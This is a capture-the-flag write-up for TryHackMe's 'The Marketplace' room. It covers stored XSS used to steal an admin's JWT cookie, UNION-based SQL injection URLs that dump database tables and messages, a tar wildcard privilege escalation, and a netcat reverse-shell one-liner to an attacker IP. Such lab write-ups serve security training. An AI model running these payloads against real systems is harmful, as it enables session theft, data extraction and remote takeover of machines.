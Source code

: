 # The Marketplace

This is a write-up for the room on TryHackMe: [https://tryhackme.com/room/marketplace](https://tryhackme.com/room/marketplace)

Nmap scan:&#x20;

```
nmap -T4 -A 10.10.32.69 -oN nmapscan
```

Output of nmap scan:

```c
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-02 17:22 EDT
Nmap scan report for 10.10.32.69
Host is up (0.20s latency).
Not shown: 997 filtered ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c8:3c:c5:62:65:eb:7f:5d:92:24:e9:3b:11:b5:23:b9 (RSA)
|   256 06:b7:99:94:0b:09:14:39:e1:7f:bf:c7:5f:99:d3:9f (ECDSA)
|_  256 0a:75:be:a2:60:c6:2b:8a:df:4f:45:71:61:ab:60:b7 (ED25519)
80/tcp    open  http    nginx 1.19.2
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-server-header: nginx/1.19.2
|_http-title: The Marketplace
32768/tcp open  http    Node.js (Express middleware)
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-title: The Marketplace
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.68 seconds
```

I started off by visiting the main page on port 80:

![](<../../.gitbook/assets/image (313).png>)

There is a robots.txt, which was indicated in the nmap scan:

![](<../../.gitbook/assets/image (302).png>)

This leads to the following:

![](<../../.gitbook/assets/image (315).png>)

The same page is visible for the webserver on port 32768:

![](<../../.gitbook/assets/image (318).png>)

I signed up and made a new listing on the site. I then added **\<script>alert(document.cookie)\</script>**, in the title to see if I can get some information:

![](<../../.gitbook/assets/image (310).png>)

I seem to get a token. I found out that this is JWT or JSON Web Token. When I decoded it, this was my result:

![](<../../.gitbook/assets/image (307).png>)

I believe my next step is to change the payload data to have me be the admin, so I am allowed to view the page. I tried to modify the payload as admin, but I ended up failing. I found [this write-up](https://www.security-hive.com/post/tryhackme-the-marketplace-walkthrough), that led me to a website: [https://github.com/s0wr0b1ndef/WebHacking101/blob/master/xss-reflected-steal-cookie.md](https://github.com/s0wr0b1ndef/WebHacking101/blob/master/xss-reflected-steal-cookie.md). Using the github link, I first **ran the python script** mentioned in the github page, and then I tried the first option:

![](<../../.gitbook/assets/image (301).png>)

I then got this response from the website:

![](<../../.gitbook/assets/image (293).png>)

I then tried it again, this time removing the alert box code:

![](<../../.gitbook/assets/image (316).png>)

I then submitted the listing. Based on the hint from TryHackMe, I then reported this listing to the admins.&#x20;

![](<../../.gitbook/assets/image (306).png>)

At this point, I realized that I was making a mistake, and that I was entering the IP of the server itself, and not my own IP from TryHackMe. I then corrected my javascript:

![](<../../.gitbook/assets/image (296).png>)

When I reported it this time to the admin, I got the cookie using the python script from the GitHub page:

![](<../../.gitbook/assets/image (300).png>)

I entered this in [jwt.io](https://jwt.io/#debugger-io), and got the following result:

![](<../../.gitbook/assets/image (299).png>)

We can see the username of the admin is michael. I then logged out of the account. I then logged in using credentials I had made previously, **test:test**, and when the following prompt came up in burpsuite (I used the burpsuite browser for this part), I modified it to use the cookie of the admin:&#x20;

![](<../../.gitbook/assets/image (320).png>)

I was then in:

![](<../../.gitbook/assets/image (311).png>)

In order to access **/admin**, you have to manually force the admin cookie in bupsuite. After I did that, I got to the following site:

![](<../../.gitbook/assets/image (319).png>)

I did the same for the **Administration Panel**, and got the first flag:

![](<../../.gitbook/assets/image (314).png>)

I see that jake is also an administrator. After a while, viewing [this write-up](https://www.security-hive.com/post/tryhackme-the-marketplace-walkthrough), made me realize that I should focus more on the SQL Injection than the user jake. Using the same write-up I ended up finding about the following web query:

```c
http://10.10.8.149/admin?user=-2+union+select+1,(SELECT+group_concat(table_name)+from+information_schema.tables+where+table_schema=database()),3,4
```

This led to the output that tolds what table names there are:

![](<../../.gitbook/assets/image (317).png>)

Running the following web query led to the column names:

```c
http://10.10.8.149/admin?user=-2+union+select+1,(SELECT+group_concat(column_name)+from+information_schema.columns+where+table_schema=database()),3,4
```

![](<../../.gitbook/assets/image (322).png>)

From the write-up, the author then went on to make this query:

```c
http://10.10.8.149/admin?user=-2+union+select+1,(SELECT+message_content+FROM+messages+WHERE+ID=1),3,4
```

This led to the following output:

![](<../../.gitbook/assets/image (309).png>)

This seems to be the SSH password for a user. The credentials worked for jake:

![](<../../.gitbook/assets/image (298).png>)

The user.txt file was in the directory you enter in:

![](<../../.gitbook/assets/image (304).png>)

I then ran **sudo -l** to find out what actions we have as a sudoer:

![](<../../.gitbook/assets/image (321).png>)

I found out we have a file we have access to read. We do not have access to edit the file. I found [this website](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/), based on a couple of the write-ups I had read online, that talked about exploiting wildcards for privilege escalation. I followed the commands from the website:

I first ran `cat /etc/cron` and got the following output:

![](<../../.gitbook/assets/image (295).png>)

There does not seem to be anything of importance here, so I moved on to the next step, which was creating a msfvenom payload:

![](<../../.gitbook/assets/image (294).png>)

We then copy the **mkfifo** output (previous image) into the jake user's shell (in the **/opt/backups** directory). I then ran the following commands, going off of [this write-up](https://yebberdog.medium.com/tryhackme-the-marketplace-writeup-3397db0c6dfb):

```c
echo "mkfifo /tmp/rtez; nc 10.2.54.229 4444 0</tmp/rtez | /bin/sh >/tmp/rtez 2>&1; rm /tmp/rtez" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
sudo -u michael ./backup.sh
```

{% hint style="warning" %}
I ran into an issue here where I was not able to backup the files. I kept getting an error, in order to fix it, I moved **backup.tar** to **bkup.tar**. I then ran the **sudo** command once again and got the reverse shell. Source: [https://www.infosecarticles.com/tryhackme-the-marketplace-walkthrough/](https://www.infosecarticles.com/tryhackme-the-marketplace-walkthrough/)
{% endhint %}

After I ran the aforementioned commands, I had a reverse shell:

![](<../../.gitbook/assets/image (312).png>)

I then spawned a python shell here running the following command, from [this website](https://netsec.ws/?p=337):

```python
python -c 'import pty; pty.spawn("/bin/sh")'
```

After I got the shell, I tried to run **sudo -l**, but that did not work out for me. I had to get the shell again and start over. I read [a write-up](https://www.infosecarticles.com/tryhackme-the-marketplace-walkthrough/) and found out we are part of the docker group. I also found out that I made a mistake copying a command from GTFOBins (for the **docker** command):

![](<../../.gitbook/assets/image (297).png>)

I was not supposed to use sudo for this. I was then able to get the flag:

![](<../../.gitbook/assets/image (305).png>)

